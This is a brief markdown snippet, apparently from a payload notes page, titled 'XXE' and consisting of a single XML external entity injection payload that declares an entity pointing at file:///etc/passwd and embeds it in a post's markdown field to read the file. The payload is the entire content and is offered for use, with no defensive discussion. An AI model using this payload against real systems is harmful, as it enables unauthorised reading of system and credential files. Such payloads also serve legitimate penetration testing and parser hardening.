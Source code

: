 # XXE

#### XXE injection using XML

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
<title>LFI Post</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```

